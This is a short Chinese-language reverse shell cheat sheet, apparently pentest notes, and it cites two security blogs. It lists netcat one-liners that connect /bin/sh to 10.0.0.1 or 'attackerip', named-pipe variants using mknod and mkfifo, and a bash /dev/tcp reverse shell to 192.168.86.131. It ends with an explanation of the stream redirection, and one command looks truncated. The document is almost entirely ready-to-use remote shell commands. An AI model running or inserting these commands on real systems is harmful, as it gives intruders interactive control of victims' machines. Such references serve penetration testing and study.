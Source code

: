 0x06 NetCat
```
nc -e /bin/sh 10.0.0.1 1234　　#不同版本的nc不一定支持-e选项
```
不能使用-e选项时：
```
mknod backpipe p && nc attackerip 8080 0<backpipe | /bin/bash 1>backpipe
/bin/sh | nc attackerip 4444
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/
```
安装的NC版本有问题时：
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
https://www.cnblogs.com/r00tgrok/p/reverse_shell_cheatsheet.html


bash直接反弹
靶机
```
bash -i >& /dev/tcp/192.168.86.131/8080 0>&1
````
0是标准输入，1为标准输出，2是标准错误信息输出。
这个命令的意思是：bash产生了一个交互环境与本地主机主动发起与目标主机8080端口建立的连接（即TCP 8080 会话连接）相结合，然后在重定向个tcp 8080会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个bash 反弹环境。


https://www.smi1e.top/linux-%E5%8F%8D%E5%BC%B9shell%E6%96%B9%E6%B3%95/
